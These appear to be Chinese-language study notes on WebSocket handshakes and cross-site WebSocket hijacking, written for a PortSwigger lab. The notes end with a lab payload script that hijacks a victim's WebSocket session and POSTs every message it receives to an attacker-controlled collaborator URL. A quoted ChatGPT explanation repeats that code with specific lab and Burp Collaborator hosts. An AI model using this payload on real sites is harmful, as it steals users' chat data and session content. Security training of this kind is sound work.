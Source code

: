 WebSocket广泛用于现代Web应用程序。它们通过HTTP启动，并通过双向异步通信提供长期连接。

WebSocket可以用于实现各种功能，包括执行用户操作和传输敏感信息。WebSocket在需要低延迟或服务启动消息的情况下特别有用。

websocket连接通常使用客户端JS创建，如下所示

```js
var ws = new WebSocket("wss://normal-website.com/chat");
```

为了建立连接，浏览器和服务器**通过HTTP执行**WebSocket握手。浏览器发出WebSocket握手请求，如下所示：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

如果服务器接受连接，它将返回websocket握手响应，如下所示：

```solidity
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

此时，网络连接保持打开状态，可用于向任一方发送websocket消息。

>WebSocket握手消息的几个特性：
>
>- 请求和响应中的`connection`和`upgrade`头表示这是websocket握手。
>- `sec-websocket-version` 请求头指定客户端希望使用的websocket协议版本。通常是13
>- `Sec-WebSocket-Accept` 头包含一个Base64编码的随机值，该值在每次握手请求时随机生成。
>- `Sec-WebSocket-Accept` 响应头包含在 `Sec-WebSocket-Key` 请求头中提交的值的哈希值，并与协议规范中定义的特定字符串连接。这样做是为了防止因服务器或缓存代理配置错误而产生的误导性响应。

建立websocket连接后，客户端或服务器可以在任一方向异步发送消息。

可以使用客户端js从浏览器发送一条简单的消息，如下所示：

```solidity
ws.send("Peter Wiener");
```

原则上，websocket消息可以包含任何内容或数据格式。在现代应用程序中，json通常用于在websocket消息中发送结构化数据。

例如，使用websocket的聊天机器人应用程序可能会发送以下消息：

```solidity
{"user":"Hal Pline","content":"I wanted to be a Playstation growing up, not a device to answer your inane questions"}
```

跨站websocket劫持

跨站websocket劫持涉及websocket握手时的csrf漏洞。当websocket握手请求仅依赖于HTTP cookie进行会话处理并且不包含任何CSRF令牌或其他不可预测的值时，就会出现这种情况。

攻击者可以在自己的域上创建恶意网页，从而与脆弱网站建立跨站websocket连接。应用程序将受害用户与应用程序会话的上下文中处理连接。

然后，攻击者的页面可以**通过连接向服务器发送任意消息**，**并读取从服务器接受回的消息内容**。这意味着，与常规CSRF不同，攻击者可以与受感染的网站双向交互。

和找普通的CSRF攻击一样，跨站websocket劫持也需要找到一个仅依赖于HTTP cookie进行会话处理的握手消息，并且不会在请求参数中使用任何token或其他不可预测的值。

例如，以下websocket握手请求可能容易受到CSRF的攻击，因此唯一的会话token是在cookie中传输的。

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

> `Sec-WebSocket-Key` 包含一个随机值，以防止缓存代理时出现错误，**并且不用于身份验证或会话处理目的。**

如果websocket握手请求容易受到CSRF的攻击，则攻击者的网页可以执行跨站点请求，在易受攻击的站点上打开websocket。攻击中接下来会发生什么完全取决于应用程序。

>[Lab: Cross-site WebSocket hijacking ](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
>
>**payload**
>
>```solidity
><script>
>    var ws = new WebSocket('wss://your-websocket-url');
>    ws.onopen = function() {
>        ws.send("READY");
>    };
>    ws.onmessage = function(event) {
>        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
>    };
></script>
>```
>
>**chatgpt**
>
>这个JavaScript脚本创建了一个WebSocket连接（`ws`），并定义了一些事件处理程序。以下是脚本的主要功能：
>
>1. WebSocket连接：
>
>   ```js
>   var ws = new WebSocket('wss://0aa2006104af81dc85a2a981000c002d.web-security-academy.net/chat');
>   ```
>
>   通过创建一个WebSocket对象，该对象连接到了指定的WebSocket地址 `'wss://0aa2006104af81dc85a2a981000c002d.web-security-academy.net/chat'`。这可能是与聊天服务器或实时通信相关的WebSocket地址。
>
>2. WebSocket打开时发送消息：
>
>   ```js
>   codews.onopen = function() {
>       ws.send("READY");
>   };
>   ```
>
>   当WebSocket连接成功打开时，通过 `ws.send("READY")` 发送了一条消息，消息内容是字符串 "READY"。
>
>3. WebSocket接收消息时进行处理：
>
>   ```js
>   javascriptCopy codews.onmessage = function(event) {
>       fetch('https://255nqfuua69rvyaxjt79wwei99fz3o.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
>   };
>   ```
>
>   当WebSocket接收到消息时，使用 `ws.onmessage` 事件处理程序。在这里，它通过 `fetch` API 向指定的URL `'https://255nqfuua69rvyaxjt79wwei99fz3o.burpcollaborator.net'` 发送了一条POST请求，请求体（`body`）是通过WebSocket接收到的消息（`event.data`）。